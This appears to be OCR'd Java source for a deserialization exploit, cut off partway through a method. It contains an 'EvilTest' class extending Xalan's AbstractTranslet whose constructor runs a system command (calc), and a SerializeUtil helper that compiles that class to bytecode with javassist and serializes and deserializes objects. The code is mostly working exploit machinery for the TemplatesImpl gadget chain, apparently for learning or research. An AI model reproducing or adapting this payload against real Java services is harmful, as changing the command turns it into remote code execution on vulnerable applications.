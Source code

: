 ```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTest extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public EvilTest() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
package com.feng.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
```